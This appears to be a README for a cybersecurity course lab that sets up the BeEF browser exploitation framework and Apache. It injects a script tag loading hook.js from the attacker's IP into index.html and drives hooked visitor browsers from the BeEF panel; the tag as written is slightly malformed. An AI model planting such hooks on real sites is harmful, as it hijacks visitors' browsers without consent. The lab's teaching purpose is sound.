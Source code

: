 # KGM-Cyber-Project1
Cybersecurity course first project in KGM

### Install beef-xss using apt
* sudo apt update
* sudo apt install beef-xss

### Install apache2
* sudo apt install apache2

### Obtain IP address
* ipconfig

### Add script to index.html
* cd /var/www/html
* vim index.html
* within the body tag, insert <script>src="http://IP_ADDRESS:3000/hook.js"</script>

![index_file](KGM-Cyber-Project1/index_file.png)


### Start beEF and run apache
* beef-xss
    * this will ask to set beEF password

* systemctl enable apache2
* systemctl start apache2
* systemctl status apache2

![apache_server](KGM-Cyber-Project1/apache_server.png)  

* Go to IP_ADDRESS/ui/panel and login with beef as username and password as set during beef installation
* Online hooks should be enabled. Click on IP_ADDRESS and perform actions

![beef_screenshot](KGM-Cyber-Project1/beef_screenshot.png)
